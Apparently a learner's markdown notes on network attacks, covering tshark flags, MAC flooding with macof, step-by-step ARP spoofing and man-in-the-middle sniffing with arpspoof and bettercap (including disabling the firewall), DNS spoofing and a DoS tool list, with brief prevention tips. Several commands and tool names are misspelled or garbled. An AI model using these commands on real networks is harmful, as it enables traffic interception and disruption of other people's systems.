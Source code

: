 ## Tshark like wireshark but with command line.
for filter -y 
Reading picaps file -r 
for capturing -w
for time -t 
to limit the capture -c
## TCPdump
for loop back
# What is ARP ?
# MAC flodding
most common network attacks.
it work by sending a lot of fake mac ports and over writing the reel users.
syntax : macof -i wlano -n 10 -d 192.168.0.4

## prevention
1. port security - limits the no of mac addresses connecting to a single port on the switch.
- command : switch port -security maximum 5
1. MAC filtering - limits the no of mac addresses to a certain extent.
# ARP Spoofing / ARP Cache poisoning 
demo
1. WE will get the mac of our gateway
2. we will get our linux machine mac
    a. arp -g
3. Enable ip forward
    a sudo sysctl net.ipv4.ip_forward=1
4. Disable Firewall
    sudo ufw disable 
5. Start the spoofing with arpspoof tools 
    a. Arpspoof -i interface -t target -r defaultgatewayip
NOTE:
- ip of attacker 
- ip victim
- getewap
### for advanced use better cap.
1. install bettercap 
2. start bettecap
3. scan the network 
    - net.probe on
    - netshow => to use the network 
4. Start arp spoofing 
    a. set arp.spoof.targets <ip>
    b. set arp apoof.fullduplex true
    c. arp.spoof on 
5. Enable forwarding and Disable Firewall
    a. sudo sysctl net.ipv4.ip_forward=1
    b. sudo ufw disable
6. start Mitm
    a. net.sniff on
    b. net sniff off
## prevention
1. Using static ARP table
2. Switch security 
3. Encryption 
## DNS spoofing 
using DNS cach poising 
we can use bettercap here to.  with 
HTST = http -> https


==protocol down grading attack==
oposite of hsts

#DOS and DDOS Attacks
DOs from one pc 
DDOs form more than one pc
TOOLS
1. solarWind security EVent manager (SEM)
2. MANAgeEngine log360
3. HULK
4. Tor's Hammer
5. slowloris
6. LOIC
7. XOIC
8. DDOSIM
9. RUDY
10. PyLoris

The most popular and effective is MEGAMedusa
prevention
we can use Cloudflare.